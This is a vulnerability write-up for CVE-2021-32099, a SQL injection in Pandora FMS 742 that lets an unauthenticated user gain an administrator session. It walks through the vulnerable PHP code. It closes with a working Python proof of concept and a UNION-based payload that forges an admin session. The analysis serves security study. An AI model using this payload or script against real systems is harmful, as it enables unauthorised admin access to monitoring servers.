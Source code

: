 # CVE-2021-32099

## 1. Description

A SQL injection vulnerability in the pandora_console component of Artica Pandora FMS 742 allows an unauthenticated attacker to upgrade his unprivileged session via the `/include/chart_generator.php` `session_id` parameter, leading to a login bypass.

## 2. How does PandoraFMS handle an unauthenticated access?

Let’s have a look at how user input is processed when access the endpoint:
- http://127.0.0.1:1337/pandora_console/include/chart_generator.php

<b><span style="color:red">/include/chart_generator.php</span></b>

```php
[...]
// Try to initialize session using existing php session id.
$user = new PandoraFMS\User(['phpsessionid' => $_REQUEST['session_id']]);
if (check_login(false) === false) {
    // Error handler.
    ?>
[...]
```

As you can see, the user's input `$_REQUEST['session_id']` is passed to the constructor of the class `PandoraFMS\User` without any sanitization. Let's see what happen inside this class.

<b><span style="color:red">/include/lib/User.php</span></b>

```php
class User
{
    public $idUser;
    public $sessions = [];
    public function __construct($data) {
        global $config;

        // Unset user.
        unset($config['id_usuario']);
        unset($_SESSION['id_usuario']);

        if (is_array($data) === true) {
            if (isset($data['phpsessionid']) === true) {
                $this->sessions[$data['phpsessionid']] = 1;
                $info = \db_get_row_filter(
                    'tsessions_php',
                    ['id_session' => $data['phpsessionid']]
                );

                if ($info !== false) {
                    // Process.
                    $session_data = session_decode($info['data']);
                    $this->idUser = $_SESSION['id_usuario'];

                    // Valid session.
                    return $this;
                }
                return null;
            }
            [...]
        }
    }
}
```

Inside the constructor of the class `PandoraFMS\User`, user's input then is passed to `db_get_row_filter`. At this point, the chain of backend processing functions is called in sequence to process the user's input data. Finally, it calls `session_decode($info['data'])` to validate the data returned from the database.

**Flow to construct SQL statement**

We will analyze the execution flow of the payload <b>?session_id=XXX</b>. Below is the processing flow I found after a period time of debugging:

- **The Big Picture:**

```mermaid
flowchart TD
    subgraph **Functions Call Flow**
    A((db_get_row_filter)) -- "(1)" --> B[mysql_db_get_row_filter]
    B                      -- "(2)" --> C[mysql_db_format_array_where_clause_sql]
    C                      -- "(3)" --> B
    B                      -- "(4)" --> D[mysql_db_get_row_sql]
    D                      -- "(5)" --> E[mysql_db_get_all_rows_sql]
    E                      -- "(6)" --> F[(mysql_db_process_sql)]
    end
    subgraph **Data Flow**
    AA["`
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$filter:</span></b> [id_session => <b><span style="color:red">XXX</span></b>]
    `"] -- "(1)" --> BB["`
        <b><span style="color:cyan">$where_join:</span></b> AND
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$filter:</span></b> [id_session => <b><span style="color:red">XXX</span></b>]
    `"]

    BB  -- "(2)" --> CC["`
        <b><span style="color:cyan">$table:</span></b> tsessions_php
        <b><span style="color:cyan">$where_join:</span></b> AND
        <b><span style="color:cyan">$filter:</span></b>
        WHERE id_session = '<b><span style="color:red">XXX</span></b>'
    `"]

    CC -- "(3)" --> DD[("`
        <b><span style="color:cyan">$sql:</span></b>
        <b><span style="color:green">
                SELECT * FROM tsessions_php  WHERE id_session = '<b><span style="color:red">XXX</span></b>'
        </span></b>
    `")]
    end
```

- **The root cause:** The user's input is not thoroughly sanitized during the creation of the `WHERE` clause of the SQL statement.
    - <b><span style="color:red">mysql_db_format_array_where_clause_sql:</span></b> Constructing `WHERE` clause
        ```php
        // include/db/mysql.php
        function mysql_db_format_array_where_clause_sql($values, $join='AND', $prefix=false) {
            [...]
            // At this point:
            // $values: [ id_session => "XXX" ]
            
            foreach ($values as $field => $value) {
                $query .= sprintf("%s = '%s'", $field, $value);
            }

            [...]
            return (! empty($query) ? $prefix : '').$query.$group.$order.$limit.$offset;
            // => Return: " WHERE `id_session` = 'XXX'"
        }
        ```
    - <b><span style="color:red">mysql_db_get_row_filter:</span></b> Constructing the final SQL statement
        ```php
        // include/db/mysql.php
        function mysql_db_get_row_filter($table, $filter, $fields=false, $where_join='AND', $historydb=false)
        {
            [...]
            if (is_array($filter)) {
                $filter = db_format_array_where_clause_sql($filter, $where_join, ' WHERE ');
                // After this line:
                // $filter = " WHERE `id_session` = 'XXX'"
            }
            [...]

            $sql = sprintf('SELECT %s FROM %s %s', $fields, $table, $filter);
            // After this line:
            // $sql = "SELECT * FROM tsessions_php  WHERE `id_session` = 'XXX'"

            return db_get_row_sql($sql, $historydb); // Now connect to DB and execute SQL statement.
        }
        ```

## 3. SQL Injection to bypass the administrator authentication

First, we need to determine how the admin's `id_session` is stored in the database:

<p align="center"> <img src="/img/cve-2021-32099/db.png"></p>

Next, we try to access `include/chart_generator.php?session_id=ua74ldrjn4mmam90git1jvkcon` and debug to see what we need to become administrator:

- At this point, we can use SQL Injection to control the value of `$info` (which is return from `db_get_row_filter`)

    <p align="center"> <img src="/img/cve-2021-32099/db_get_row_filter.png"></p>

- Next, the `session_decode` is called to deserialize the data inside `$info['data']`, the expected result is an array that would be stored in global variable `$_SESSION`.

    <p align="center"> <img src="/img/cve-2021-32099/session_decode.png"></p>

- Finally, admin privileges are determined by checking if `$_SESSION['id_usuario'] == "admin"`.

Now we need to build a SQLi payload such that when the `db_get_row_filter` function is called, it will return the result: `$info['data'] = id_usuario|s:5:"admin";`

This can be easily achieved by using Union-based SQLi attack like this:

<p align="center"> <img src="/img/cve-2021-32099/sqli.png"></p>

## 4. Proof of Concept

```python
import requests
import argparse

s = requests.Session()
def sqli_to_gain_session_admin(base_url: str) -> str:
    """ CVE-2021-32099: SQL Injection to gain session admin 
        Args:
            `base_url`: Base URL of the application (Ex: http://localhost:8080/pandora_console)
        Returns: 
            `id_session`: The session with admin privileges
    """

    # Step 1: Init Access to get a "NULL" `id_session`
    res = s.get(
        url=f"{base_url}/include/chart_generator.php",
    )
    id_session = res.cookies.get("PHPSESSID")
    print(f"[*] First get `id_session` with NULL privilege: {id_session}")

    # Step 2: SQL Injection to gain session admin
    res = s.get(
        url=f"{base_url}/include/chart_generator.php",
        params={
            "session_id": "' UNION SELECT '1',2,'id_usuario|s:5:\"admin\";"
        }
    )
    id_session = res.cookies.get("PHPSESSID")
    print(f"[*] Then perform SQL Injection to gain admin privilege...")

    # Step 3: Verify the session
    if "Pandora FMS Graph ( - )" not in res.text:
        print("[-] Failed to gain admin session")
    else:
        print("[+] Successfully gained admin session!!!")

if __name__ == "__main__":
    parser = argparse.ArgumentParser(description='PoC for CVE-2021-32099')
    parser.add_argument('-u', '--url', type=str, help='Base URL of the application (Ex: http://localhost:8080/pandora_console)', required=True)
    args = parser.parse_args()

    sqli_to_gain_session_admin(args.url)
```

https://github.com/user-attachments/assets/971eb90a-c227-481e-ad6c-148bced3bdc3

## 5. References

- https://www.sonarsource.com/blog/pandora-fms-742-critical-code-vulnerabilities-explained/
